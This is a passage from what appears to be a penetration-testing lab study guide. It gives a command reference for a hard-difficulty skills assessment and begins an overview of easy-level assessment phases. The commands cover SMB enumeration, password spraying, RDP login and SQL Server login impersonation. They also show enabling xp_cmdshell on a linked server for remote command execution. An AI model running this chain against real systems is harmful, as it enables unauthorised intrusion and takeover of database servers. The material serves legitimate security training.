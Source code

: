 
## 🔧 Complete Tool Chain - Hard Difficulty

### Full Command Reference
```bash
# Service Discovery
nmap -A -Pn target_ip

# SMB Share Enumeration
smbclient -N -L target_ip
smbclient -N //target_ip/share_name

# Custom Wordlist Creation
cat file1.txt file2.txt file3.txt > passwords.txt

# Credential Attacks
sudo cme smb target_ip -u username -p passwords.txt

# RDP Access
xfreerdp /v:target_ip /u:username /p:'password'

# SQL Server Access
SQLCMD.EXE -S server_name

# SQL Server Impersonation
EXECUTE AS LOGIN = 'username'

# Linked Server Enumeration
SELECT srvname, isremote FROM sysservers

# Cross-Server Execution
EXECUTE('command') AT [LINKED.SERVER.NAME]

# xp_cmdshell Enablement
EXECUTE('EXECUTE sp_configure ''xp_cmdshell'', 1;RECONFIGURE') AT [LINKED.SERVER]

# Remote Command Execution
EXECUTE('xp_cmdshell ''command''') AT [LINKED.SERVER]
```

---

## 🔗 Complete Skills Assessment Trilogy

### Difficulty Progression Overview

#### **Easy Skills Assessment**
- **Attack Chain**: 7 phases (Basic multi-service exploitation)
- **Services**: FTP, SMTP, HTTP, HTTPS, MySQL (5 services)
- **Complexity**: Medium - Multiple exploitation paths
- **Key Skills**: Service enumeration, credential attacks, directory traversal
